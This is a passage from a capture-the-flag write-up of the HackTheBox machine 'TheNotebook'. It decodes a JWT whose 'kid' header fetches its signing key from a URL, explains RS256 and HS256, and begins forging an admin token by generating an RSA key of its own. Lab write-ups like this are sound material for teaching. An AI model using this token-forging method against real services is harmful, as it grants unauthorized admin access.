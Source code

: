 ```bash
  "kid": "http://localhost:7070/privKey.key"
}
{
  "username": "f4T1H",
  "email": "f4T1H@f4T1H.com",
  "admin_cap": 0
}
jq: error (at <stdin>:1): string ("k7NYdNUR3g...) is not valid base64 data
```

Wee see the signing algorithm used in JWT(Json Web Token) is `RS256` which is unusual.

What's the difference between `RS256` & `HS256` signing algorithms?

>RS256 (RSA Signature with SHA-256) is an asymmetric algorithm, and it uses a public/private key pair: the identity provider has a private (secret) key used to generate the signature, and the consumer of the JWT gets a public key to validate the signature. Since the public key, as opposed to the private key, doesn't need to be kept secured, most identity providers make it easily available for consumers to obtain and use (usually through a metadata URL).

>HS256 (HMAC with SHA-256), on the other hand, involves a combination of a hashing function and one (secret) key that is shared between the two parties used to generate the hash that will serve as the signature. Since the same key is used both to generate the signature and to validate it, care must be taken to ensure that the key is not compromised.

Here we can confirm RSA because it goes and gets a key from the hardcoded link in JWT.

Another thing is that the `admin_cap` as you can guess.

What I'm thinking of is signing the jwt by our own and see if we can change that `admin_cap` to `1`.

### RS256 Signing

```bash
┌──(root💀f4T1H)-[~/hackthebox/thenotebook]
└─> ssh-keygen -t rsa -b 4096 -m PEM -f rs256.key;echo;ls
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in rs256.key
Your public key has been saved in rs256.key.pub
The key fingerprint is:
SHA256:tgdzwNgyH2SDMMXZP4gRcBRopEguVLEuA5uOdb6v8GQ root@f4T1H
The key's randomart image is:
+---[RSA 4096]----+
| o.+*B**+        |
|+. .+o=*..       |
|+..o  +o=o       |
|oo.   .+.oo      |
|oo...   S ..     |
|o.oo   . =       |
|... E   . .      |
|   = .   .       |
|    +o.          |
+----[SHA256]-----+

rs256.key  rs256.key.pub
```
